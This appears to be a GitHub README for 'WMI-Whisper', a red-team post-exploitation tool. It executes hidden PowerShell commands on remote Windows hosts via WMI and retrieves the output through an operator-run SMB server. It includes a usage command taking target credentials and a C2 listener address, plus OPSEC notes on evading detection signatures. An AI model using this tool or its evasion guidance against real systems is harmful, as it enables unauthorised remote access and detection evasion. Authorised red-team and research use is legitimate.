 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)

---

## 🧰 Requirements

- Python 3.8+
- Impacket (install from source or `pip`)
- Outbound SMB access (port 445) to your C2 box
- Valid credentials on the target system

---

## ⚙️ Setup

```bash
# Install system deps
sudo apt install python3 python3-pip -y

# Clone & install impacket
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

## 🚀 Usage

```bash
python3 whisper.py <TARGET> <USERNAME> <PASSWORD> --domain <DOMAIN> --lhost <YOUR_IP>
```

| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET   | Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts

## 📸 DEMO
![GhostWMIC Demo](extra/whisper.gif)

## ✅ Legal & Ethics
This project is intended strictly for educational and authorized testing purposes.
Do not use it against systems you do not own or have explicit permission to test.


- Based on [Impacket](https://github.com/fortra/impacket)

- Built by a cybersecurity researcher and student



















